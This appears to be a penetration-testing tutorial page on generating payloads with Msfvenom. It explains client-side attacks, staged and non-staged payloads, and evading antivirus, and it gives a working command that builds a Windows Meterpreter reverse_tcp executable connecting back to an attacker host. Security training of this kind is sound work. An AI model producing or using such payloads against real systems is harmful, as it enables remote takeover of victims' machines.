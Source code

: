 # Payloads

## Generating Payloads with Msfvenom

### Client-Side Attacks

- **Definition**: A client-side attack is an attack vector that involves coercing a client to execute a malicious payload on their system, which then connects back to the attacker when executed.
- **Techniques**: These attacks typically utilize social engineering techniques to generate malicious documents or portable executables (PEs).
- **Vulnerability**: Client-side attacks exploit human vulnerabilities as opposed to vulnerabilities in services or software running on the target system.
- **Antivirus Considerations**: Since this attack vector involves the transfer and storage of a malicious payload on the client’s system (disk), attackers need to be mindful of AV detection.

### Msfvenom

- **What is Msfvenom?**: Msfvenom is a command-line utility used to generate and encode Metasploit Framework (MSF) payloads for various operating systems and web servers.
- **Origin**: Msfvenom combines the functionalities of two tools: `msfpayload` and `msfencode`.
- **Purpose**: We can use Msfvenom to generate a malicious Meterpreter payload that can be transferred to a target system. Once executed, it will connect back to our payload handler and provide us with remote access to the target system.

### Demo: Generating Payloads with Msfvenom

1. **List available payloads:**

    ```bash
    msfvenom --list payloads
    ```

2. **Types of Payloads:**
   - **Staged Payload**: Delivered in two parts: an initial loader that connects back to the attacker and downloads the main payload, allowing for smaller payloads and flexibility.
   - **Non-staged Payload**: Delivers the entire payload at once, making it simpler and faster but potentially larger in size.

#### Generating Windows Payloads

- **Generate x86 Payload:**

    ```bash
    msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=[yourIP] LPORT=[port] -f exe > /home/kali/Desktop/Windows_Payloads/payloadx86.exe
    ```

    Check if the payload was generated successfully:

    ```bash
    cd Desktop/Windows_Payloads/
    ls
    ```
